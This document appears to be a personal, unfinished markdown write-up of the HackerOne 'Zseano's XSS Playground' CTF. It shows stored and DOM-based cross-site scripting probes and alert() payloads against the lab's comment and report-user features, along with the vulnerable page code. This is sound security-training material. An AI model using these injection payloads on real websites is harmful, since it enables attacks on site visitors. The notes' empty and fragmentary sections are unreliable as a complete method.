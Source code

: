 ```yaml
---
title: (Portswigger/WebAcademy) - Zseano's XSS Playground
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-25 09:00:00 +0200
categories: [Web Application, Stored XSS]
tags: [Notes, Stored XSS, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
It's all about XSSes.
Hackerone CTF.

![picture 1](images/ee50e5cdb3119a1cc76da24f1a0cde54cc1ff4b8930f3e36a6dfd2721590bd8b.png)  

That's a lot of XSSes, now let's hunt.

## TOC

# Reflective

# Stored

Payload: `canary'"</>`

We get 2 matches (search for `canary`):

```html
                        <h6> <img src="guest.png" alt="profile" class="img-sm rounded-circle">
                          Guest
                          <small class="ml-4 text-muted"><i class="fas fa-star" style="background-color:yellow"></i> New comment!</small>
                        </h6>
                        canary'"<script>var commentContent='canary'&quot;';</script>
```

One entry is in the enclosed in `<script>` tags.
Another entry is outside the `<h6>` tags.

In both cases the single quotes are not escaped.

## Stored XSS in between script tags.

Payload
```
' ; alert(window.location); var xyz=' 
```

![picture 2](images/349e5842175d5470b63942fda48a8f58c79048651688e788a8d0827f27fc8f62.png)  

This is the HTML
```html
<script>var commentContent='' ; alert(window.location); var xyz=' ';</script>
```

## Stored XSS outside script tags w/ script
If i enter something like
```html
<img src=x>
test
</img>
```

I end with `" test "`, so tags are stripped.


# DOM
## DOM-based XSS on Report User
We can report user using button entitled `Report User` which opens a form. 

Test payload: `<IMG SRC=x onmouseover=alert(1)>`

![picture 4](images/6a7eebf951033d8b85ae39b60ad8a27134f087046d4849573e0a6801cbd9d55f.png)

After blindly trying XSS and checking what's loaded on the page it's obvious that `img` has landed on page, but not the `onmouseover`. 

![picture 3](images/9e8a919c1ce4e0e14c1cdfc008fc14314fd488654b37272b05570853059b24a9.png)  

After checking the form it became obvious that value is loaded into DOM.

```html
<button type="button" class="btn btn-danger" onclick="reportUsera(document.getElementById('usernamea').value, document.getElementById('msgreport').value);" data-dismiss="modal">Report User</button>
```
)" onerror=alert(1) src="test(1


function reportUsera(e, t) {
    t = btoa(t);
    var n = new XMLHttpRequest;
    n.open("POST", "api/action.php?act=report", !0),
    n.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"),
    n.onreadystatechange = function() {
        this.readyState === XMLHttpRequest.DONE && 200 === this.status && (top.location.href = "index.php?msg=Thanks, your report has been received. You can view your report by clicking 'report user' again.")
    }
    ,
    n.send("username=" + e + "&msg=" + t)
}

" <script>alert(1)</script>"